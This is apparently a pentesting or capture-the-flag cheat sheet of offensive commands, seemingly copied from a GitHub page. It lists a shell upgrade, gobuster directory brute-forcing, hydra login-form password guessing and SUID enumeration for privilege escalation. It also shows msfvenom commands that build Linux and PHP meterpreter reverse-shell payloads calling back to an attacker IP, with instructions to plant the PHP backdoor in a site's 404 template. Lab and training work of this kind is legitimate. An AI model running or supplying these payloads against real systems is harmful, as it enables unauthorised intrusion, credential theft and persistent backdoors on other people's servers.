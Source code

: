 `Upgrade terminal`
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
___
`Gobuster`
```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://ip -t 100 -q -o gobust.txt
```
___
`Hydra` `To Find Username OR Password for login pages` 
```
hydra -L .dic -p test IP http-post-form "log=^USER^&pwd=^PWD^:Invalid username Or name of Error thrown" -t 30
```

___
`To find Root Processes`
```
Sudo -l
```
OR
```
find / -perm +6000 2>/dev/null | grep '/bin/'
```
___
`MsfVenom`
```
In Attackers pc: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.49 LPORT=4040 -f elf > r.elf
Upload the r.elf to webshell and excuite it to get the reverse shell

OR

1. Generate backdoor

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f raw -o payload.php

2. Create our payload handler

msfconsole
$ use exploit/multi/handler
$ set payload php/meterpreter/reverse_tcp
$ set LHOST 192.168.0.32
$ set LPORT 4444
$ run

3. Paste the payload.php at the 404 Tamplate
```




